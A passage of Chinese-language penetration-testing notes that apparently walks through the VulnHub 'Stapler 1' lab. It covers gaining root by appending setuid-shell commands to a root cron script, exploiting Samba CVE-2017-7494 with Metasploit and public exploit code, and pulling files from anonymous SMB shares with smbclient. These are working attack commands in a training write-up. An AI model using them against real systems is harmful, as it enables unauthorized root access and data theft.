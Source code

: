 插入代码：
echo "cp /bin/dash /tmp/exploit; chmod u+s /tmp/exploit;chmod root:root /tmp/exploit" >> /usr/local/sbin/cron-logrotate.sh
cat /usr/local/sbin/cron-logrotate.sh
等待五分钟.......

/tmp/exploit -p



13、sambacry 拿shell   ---利用随机化！
前面nmap扫出了信息：
139/tcp   open   netbios-ssn Samba smbd 4.3.9-Ubuntu (workgroup: WORKGROUP)

searchsploit Samba 4.3.9
locate linux/remote/42084.rb
cp /usr/share/exploitdb/exploits/linux/remote/42084.rb .

这是CVE-2017-7494的漏洞！https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7494

MSF可以利用！

msfconsole
search Samba   ---符合2017年的就几个
use exploit/linux/samba/is_known_pipename
set rhosts 10.211.55.37
set rport 139
run

https://github.com/joxeankoret/CVE-2017-7494/
proxychains git clone https://github.com/opsxcq/exploit-CVE-2017-7494.git


---------
知识拓展：
1）查询所有内核信息
uname -mra && cat /etc/*release*


2）Linux smbclient
https://steflan-security.com/vulnhub-stapler-1-walkthrough/  --菜鸟
Linux smbclient命令可存取SMB/CIFS服务器的用户端程序。

SMB与CIFS为服务器通信协议，常用于Windows95/98/NT等系统。smbclient(samba client)可让Linux系统存取Windows系统所分享的资源。


-L 显示服务器端所分享出来的所有资源。
smbclient -L //10.211.55.37
发现kathy和tmp：

smbclient ///kathy -I 10.211.55.37 -N
-I<IP地址> 指定服务器的IP地址
-N 不用询问密码

cd kathy_stuff
get todo-list.txt
cd backup
get vsftpd.conf
get wordpress-4.tar.gz
